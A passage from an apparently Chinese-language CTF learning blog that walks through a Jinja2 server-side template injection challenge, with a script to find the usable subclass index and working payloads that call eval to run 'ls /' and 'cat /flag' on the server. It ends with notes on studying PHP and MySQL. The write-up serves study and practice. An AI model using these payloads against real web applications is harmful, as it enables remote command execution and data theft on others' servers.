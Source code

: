   然后写入payload

- 找类这步就要用到脚本了

  这里是直接找到一个网上的脚本

  ```
  import json
  
  a = """
  <class 'type'>,...,<class 'subprocess.Popen'>
  """
  
  num = 0
  allList = []
  
  result = ""
  for i in a:
      if i == ">":
          result += i
          allList.append(result)
          result = ""
      elif i == "n" or i == ",":
          continue
      else:
          result += i
          
  for k,v in enumerate(allList):
      if "os._wrap_close" in v:
          print(str(k)+"--->"+v)
  ```

  再倒回刚刚那题fake google

  查找到第117个类可以利用

  ![](https://tcakalr.gitee.io/tc/微信图片_202103311123439.png)

  那么调用`__globals__`

  写payload

  ```php
  {{().__class__.__bases__[0].__subclasses__()[117].__init__.__globals__.__builtins__['eval']("__import__('os').popen('ls /').read()")}}
  ```

执行ls命令

![](https://tcakalr.gitee.io/tc/微信图片_2021033111234310.png)

然后就可以读取flag

```
{{().__class__.__bases__[0].__subclasses__()[117].__init__.__globals__.__builtins__['eval']("__import__('os').popen('cat /flag').read()")}}
```

![](https://tcakalr.gitee.io/tc/微信图片_2021033111234311.png)

#### 另外

看到入门提纲里写着web入门最好去写一个基于数据库的学生信息管理系统，这周除做题外都在学习PHP+mysql，PHP有相当一部分没有学习的语法已经补回了很多，mysql也会在下周进行学习（也是为了可以学好sql注入），会尽力去写那个系统。